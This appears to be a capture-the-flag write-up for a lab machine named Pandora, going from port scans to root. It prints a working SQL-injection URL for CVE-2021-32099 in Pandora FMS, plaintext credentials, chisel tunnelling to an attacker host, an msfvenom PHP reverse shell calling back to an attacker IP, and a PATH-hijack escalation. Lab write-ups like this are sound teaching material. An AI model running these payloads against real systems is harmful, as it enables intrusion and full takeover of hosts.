 ![](pandora%20box.png)

# nmap

## nmap all ports
````
nmap -p- --min-rate 1000 -T4 -v -oN nmap-all-ports 10.10.11.136

`````

![](pandora%20all%20ports.png)

## nmap services and versions
````
nmap -sCV -p 22,80 -o nmap-services-versions 10.10.11.133
`````

![](nmap%20services%20versions.png)

## gobuster
````
gobuster dir -u http://10.10.11.136 -w /opt/tools/SecLists/Discovery/Web-Content/common.txt -o gobuster-main

`````

![](Pandora/screenshots/gobuster%20main.png)

# domain
## just static --> not exploitable
![](pandora%20website.png)

## maybe udp ports are open
````
sudo nmap -sU -p- --min-rate 1000 -T 4 10.10.11.136

`````

![](nmap%20udp%20all%20ports.png)

# msfconsole
![](snmp-enum%20reveals%20creds.png)

## creds
````
daniel:HotelBabylon23

`````

## pandora shell /etc/host reveals new local hosts
![](new%20local%20hosts.png)

# reverse port forward with chisel and proxychains

## attacker
````
./chisel server -p 3477 --reverse

./chisel server -p 3477 --socks5 --reverse

`````

## victim
````
./chisel client 10.10.14.7:3477 R:2222:127.0.0.1:80/tcp

./chisel client 13.37.13.37:3477 R:5000:socks

`````

## setup proxychains.conf
![](proxychains.conf.png)

## new login on localhost:2222
![](login%20localhost2222.png)

## pandora fms version in footer
![](pandora%20fms%20version.png)

## pandora search exploit
![](pandora%20login%20bypass.png)

![](unauthenicated%20sql%20injection%20cve-2021-32099.png)

![](cve-2021-32099.png)

![](poc%20cve-2021-32099.png)

````
http://localhost:2222/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271

`````

## cve-2021-32099 burp request
![](burp%20malicious%20get%20request%20to%20retrieve%20phpsessid.png)

## burp response PHPSESSID
![](burp%20response%20phpsessid.png)
## PHPSESSID
````
9mp333j17bophj28at1vgcrkil
`````

## replace cookie and refresh browser --> dashboard
![](pandora%20fms%20dashboard.png)

## pandora fms file manager with upload utility
![](pandora%20fms%20file%20manager.png)

## create php reverse shell with msfvenom
![](msfvenom%20php%20reverse%20shell.png)

## php reverse shell
````
msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=1111 -f raw > shell.php

`````

## shell.php is store within image folder
![](pandora%20fms%20successfully%20uploaded%20shell.php.png)

## open shell.php --> reverse shell on port 1111
![](pandora%20fms%20shell.php%20url.png)

## listening for reverse shell
![](pandora%20nc%20listening%20for%20shell.png)

## user.txt
![](pandora%20user.txt.png)

## attacker machine create ssh-keygen
![](generate%20ssh-kegen.png)

## create folder .ssh in /home/matt and inside .ssh folder create file authorized_keys with 
![](pandore%20shell%20create%20.ssh%20and%20authorized%20keys.png)

## pandora_backup file snippet reveals command: tar -cvf /root/..........
![](pandora_backup%20snippet%20reveals%20tar%20as%20root.png)

## create malicious tar command
````
cd /tmp
echo "/bin/bash" > tar
chmod +x tar

export PATH=/tmp:$PATH

/usr/bin/pandora_backup

`````

![](pandora%20shell%20create%20malicious%20tar%20command.png)

## pandora root shell
![](pandora%20shell%20find%20suid%20files.png)

## pandora root.txt
![](pandora%20root.txt.png)
XXXXXXXXXXXXXX